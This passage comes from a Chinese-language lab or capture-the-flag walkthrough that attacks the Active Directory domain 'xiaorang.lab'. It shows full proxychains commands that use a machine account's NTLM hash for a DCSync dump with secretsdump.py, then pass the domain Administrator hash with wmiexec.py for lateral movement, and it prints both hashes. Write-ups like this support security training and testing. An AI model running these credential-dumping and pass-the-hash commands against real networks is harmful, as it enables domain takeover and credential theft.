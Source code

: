 ```bash
[*] Stopping service RemoteRegistry
```

获取`FILESERVER$`用户哈希为`951d8a9265dfb652f42e5c8c497d70dc`，接下来凭借机器用户哈希去获取域控哈希

## DcSync 攻击

借助`secretsdump.py`工具导出域控哈希

```bash
proxychains secretsdump.py xiaorang.lab/'Fileserver$':@172.22.60.8 -hashes ':951d8a9265dfb652f42e5c8c497d70dc' -just-dc-user Administrator
```

[![](assets/1706846898-3d550322198f09c40c1113f23884c68b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214334-baab7968-c03e-1.png)

获取域控哈希`c3cfdc08527ec4ab6aa3e630e79d349b`

## 横向传递

借助`wmiexec.py`工具横向

```bash
proxychains python3 wmiexec.py -hashes :c3cfdc08527ec4ab6aa3e630e79d349b Administrator@172.22.60.15 -codec gbk
```

[![](assets/1706846898-6be40f8d4b0f7c8926dbe14e60e1cdcd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214341-bef2071c-c03e-1.png)
